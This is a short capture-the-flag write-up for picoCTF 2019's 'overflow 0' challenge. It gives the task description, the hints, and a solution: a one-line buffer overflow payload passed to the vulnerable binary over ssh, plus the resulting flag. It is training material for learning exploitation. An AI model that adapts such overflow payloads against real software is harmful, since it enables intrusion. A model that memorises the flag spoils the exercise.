 # Description
This should be easy. Overflow the correct buffer in this [program](https://2019shell1.picoctf.com/static/c2d7ab220b4f78a4dec361bb4791d8c4/vuln) and get a flag.  
Its also found in /problems/overflow-0_6_1279241c50d050a1045301d7970f2fe3 on the shell server. [Source](https://2019shell1.picoctf.com/static/c2d7ab220b4f78a4dec361bb4791d8c4/vuln.c).


# Hints
- Find a way to trigger the flag to print  
- If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.


# Solution
```bash
▶ ssh muwa00@2019shell1.picoctf.com "cd /problems/overflow-0_6_1279241c50d050a1045301d7970f2fe3/; ./vuln `python -c "print 'A'*(0x84+4) + '\x46\x86\x04\x08'"`" 
Enter your platform password (characters will be hidden): 
picoCTF{3asY_P3a5yd4a28467}
```